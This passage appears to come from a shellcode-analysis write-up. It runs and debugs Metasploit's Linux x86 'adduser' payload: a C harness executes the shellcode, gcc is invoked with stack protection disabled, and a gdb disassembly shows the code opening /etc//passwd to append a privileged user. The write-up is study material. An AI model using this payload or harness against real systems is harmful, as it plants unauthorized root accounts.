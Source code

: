 ```c

int main()
{
	printf("Shellcode Length:  %d\n", strlen(code));
	int (*ret)() = (int(*)())code;
	ret();
}
```

Now to compile and onto debugging!

```bash
gcc a5-msf_adduser.c -o a5-msf_adduser -fno-stack-protector -z execstack
gdb a5-msf_adduser
```

```
gdb$ b *&code
Breakpoint 1 at 0x8049760


gdb$ run


gdb$ pdisass 
Dump of assembler code for function code:
=> 0x08049760 <+0>:	xor    ecx,ecx
   0x08049762 <+2>:	mov    ebx,ecx
   0x08049764 <+4>:	push   0x46
   0x08049766 <+6>:	pop    eax
   0x08049767 <+7>:	int    0x80
   0x08049769 <+9>:	push   0x5
   0x0804976b <+11>:	pop    eax
   0x0804976c <+12>:	xor    ecx,ecx
   0x0804976e <+14>:	push   ecx
   0x0804976f <+15>:	push   0x64777373
   0x08049774 <+20>:	push   0x61702f2f
   0x08049779 <+25>:	push   0x6374652f
   0x0804977e <+30>:	mov    ebx,esp
   0x08049780 <+32>:	inc    ecx
   0x08049781 <+33>:	mov    ch,0x4
   0x08049783 <+35>:	int    0x80
   0x08049785 <+37>:	xchg   ebx,eax
   0x08049786 <+38>:	call   0x80497af <code+79>							; shifted code, disassemble this function
   0x0804978b <+43>:	jae    0x80497f9
   0x0804978d <+45>:	popa   
   0x0804978e <+46>:	cmp    al,BYTE PTR gs:[ecx+0x7a]
   0x08049792 <+50>:	push   0x38
   0x08049794 <+52>:	pop    edx
   0x08049795 <+53>:	push   0x47
   0x08049797 <+55>:	jb     0x8049807
   0x08049799 <+57>:	jae    0x80497f5
   0x0804979b <+59>:	imul   esp,DWORD PTR [ebx+0x3a],0x3a303a30
   0x080497a2 <+66>:	cmp    ch,BYTE PTR [edi]
   0x080497a4 <+68>:	cmp    ch,BYTE PTR [edi]
   0x080497a6 <+70>:	bound  ebp,QWORD PTR [ecx+0x6e]
   0x080497a9 <+73>:	das    
   0x080497aa <+74>:	bound  esp,QWORD PTR [ecx+0x73]
   0x080497ad <+77>:	push   0x518b590a
   0x080497b2 <+82>:	cld    
   0x080497b3 <+83>:	push   0x4
   0x080497b5 <+85>:	pop    eax
   0x080497b6 <+86>:	int    0x80
   0x080497b8 <+88>:	push   0x1
```